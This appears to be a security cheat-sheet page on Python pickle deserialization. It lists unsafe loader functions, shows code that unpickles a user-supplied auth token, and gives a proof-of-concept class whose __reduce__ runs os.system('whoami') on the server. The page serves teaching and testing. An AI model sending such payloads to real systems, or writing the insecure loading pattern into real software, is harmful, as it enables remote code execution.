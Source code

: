 # Python Deserialization

* In Python source code, look for:
    * `cPickle.loads`
    * `pickle.loads`
    * `_pickle.loads`
    * `jsonpickle.decode`

## Pickle

The following code is a simple example of using `cPickle` in order to generate an auth_token which is a serialized User object.
:warning: `import cPickle` will only work on Python 2

```python
import cPickle
from base64 import b64encode, b64decode

class User:
    def __init__(self):
        self.username = "anonymous"
        self.password = "anonymous"
        self.rank     = "guest"

h = User()
auth_token = b64encode(cPickle.dumps(h))
print("Your Auth Token : {}").format(auth_token)
```

The vulnerability is introduced when a token is loaded from an user input. 

```python
new_token = raw_input("New Auth Token : ")
token = cPickle.loads(b64decode(new_token))
print "Welcome {}".format(token.username)
```

Python 2.7 documentation clearly states Pickle should never be used with untrusted sources. Let's create a malicious data that will execute arbitrary code on the server.

> The pickle module is not secure against erroneous or maliciously constructed data. Never unpickle data received from an untrusted or unauthenticated source.

```python
import cPickle, os
from base64 import b64encode, b64decode

class Evil(object):
    def __reduce__(self):
        return (os.system,("whoami",))

e = Evil()
evil_token = b64encode(cPickle.dumps(e))
print("Your Evil Token : {}").format(evil_token)
```

## References

* [Exploiting misuse of Python's "pickle" - Mar 20, 2011](https://blog.nelhage.com/2011/03/exploiting-pickle/)
* [Python Pickle Injection - Apr 30, 2017](http://xhyumiracle.com/python-pickle-injection/)
